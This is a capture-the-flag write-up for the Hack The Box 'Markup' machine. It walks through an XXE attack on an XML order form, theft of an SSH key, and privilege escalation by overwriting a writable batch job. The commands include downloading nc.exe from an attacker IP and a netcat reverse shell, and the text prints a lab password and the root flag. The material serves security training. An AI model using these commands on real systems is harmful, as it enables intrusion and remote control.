







# Starting Point - Markup

## Enumeration

```
rustscan 10.10.10.49 -- -sC -sV -o port_scan

PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack
80/tcp  open  http    syn-ack
443/tcp open  https   syn-ack
```

### Examine Port 80 - Apache Server



When accessing the open port 80 via a browser, we can see a login page. In the previous machine (Included), we found the credentials `Daniel:>SNDv*2wzLWf` stored in a SQL dump. Using them, we can successfully login and we are redirected to the application's website, which seems to be some kind of online store / delivery service.


The website provides several functionalities, one of which is for submitting orders. 



When submitting an order (with test data), and intercepting the request with Burpsuite, we can see that the content is XML.



There is a good chance of an XXE (XML External Entity) vulnerability. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

Let's try it:



Perfect! It works.

Now what can we do? We know that there is an open SSH port. And we also know that `Daniel` is a valid user. Maybe we can leak the private SSH key and use it to connect to the server.



Using this key as the identitfier for the ssh connection we get access to the machine!

```
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>whoami
markup\daniel
```

## Exploitation

Enumerating the system, reveals a script named `job.bat` which is located in the `C:\Log-Management` directory:

```
daniel@MARKUP C:\Log-Management>type job.bat
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

Looking at the permissions, we see that the group `BUILTIN\Users` has full control (F) over the file. This also includes our current user daniel.

```
daniel@MARKUP C:\Log-Management>icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
```

The idea is to replace the current code with a reverse shell, which will then be executed by an administrator (similar to cron jobs on unix). But therefore, we first must upload the nc.exe so that we can establish a reverse shell.

```
curl http://10.10.14.15/nc.exe -o c:\users\daniel\nc.exe

echo C:\Users\daniel\nc.exe -e cmd.exe 10.10.14.15 4444 > C:\Log-Management\job.bat
```

Now we wait and eventually receive a root-shell:



Final step is to obtain the root flag: `f574a3e7650cebd8c39784299cb570f8`
